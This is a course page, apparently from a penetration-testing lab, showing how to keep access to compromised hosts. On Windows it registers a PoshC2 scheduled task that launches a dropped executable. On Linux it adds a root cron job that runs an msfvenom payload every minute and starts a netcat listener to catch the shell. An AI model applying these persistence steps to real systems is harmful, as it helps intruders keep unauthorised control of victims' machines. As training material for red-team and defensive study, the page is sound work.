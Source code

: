 # Windows Persistence Using Scheduled Tasks and Poshc2

1. With your new beacon lets set simple persistence using `scheduled task` 
2. On parrot lets create a `.ps1` for our persistence 
3. If you have sublime installed run , alternatively use vim
    ```
    subl scktask.ps1
    ```

    ```
    vim scktask.ps1
    ```
4. Paste the following and save your script
    ```powershell
    $outpath = "C:\window\public\downloads\test.exe"
    $action = New-ScheduledTaskAction -Execute $outpath
    $days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
    $trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Persistence Test" -Description "We got persistence"
    ```
5. In your beacon run pslo
    ```powershell
    pslo 
    ```
6. You should get confirmation your script work 

7. Lets verify our persistence is working by running sharpps 
    ```powershell
    sharpps get-scheduledtask -Taskname "Persistence Test"
    ```

# Linux Persistence Using Cornjobs and Msfvenom

1. Create a script to run the payload you created:
    ```sh
    vi job.sh
    ```
    
    ```sh
    #!/bin/sh
    /location/of/payload/yup.elf
    exit 0
    ```
2. Create a job in cron to run:
    ```sh
    sudo crontab -e
    ```
    * Below all of the comments, add these lines:
    ```sh
    SHELL=/bin/sh
    * * * * *   cd /location/of/script/ && sh job.sh
    ```

3. Verify that cron is running:
    ```sh
    ps axfww | grep cron
    #If not, troubleshoot to get it running
    /etc/init.d/cron <status/stop/start/restart>
    service cron <status/stop/start/restart>
    systemctl <status/stop/start/restart> crond.service
    ```

4. On your parrot box, run your netcat command as you did previously:
    ```sh
    sudo nc -nlvp 80
    ```

## [Return to course page](README.md)